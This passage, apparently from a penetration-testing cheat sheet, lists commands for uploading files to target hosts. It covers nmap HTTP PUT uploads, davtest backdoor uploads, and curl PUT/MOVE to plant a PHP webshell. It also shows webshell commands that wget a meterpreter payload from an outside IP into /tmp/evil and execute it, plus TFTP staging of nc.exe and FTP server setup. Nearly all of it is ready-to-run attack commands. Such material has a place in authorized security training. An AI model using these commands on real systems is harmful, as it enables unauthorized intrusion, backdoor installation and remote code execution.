       The file can be run using the following syntax:
      
      `C:\temp\cscript.exe webdl.vbs`
      
-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   SCP
    
        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
        
        scp localfile username@$ip:~/Folder/
        
        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
        

    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
    
        `davtest -move -sendbd auto -url http://$ip`
      
        https://github.com/cldrn/davtest
        
        You can also upload a file using the PUT method with the curl command:
        
        `curl -T 'leetshellz.txt' 'http://$ip'`
        
        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec>tftp -i $ip get nc.exe

    -   FTP  
        apt-get update && apt-get install pure-ftpd  
          
        \#!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/  
          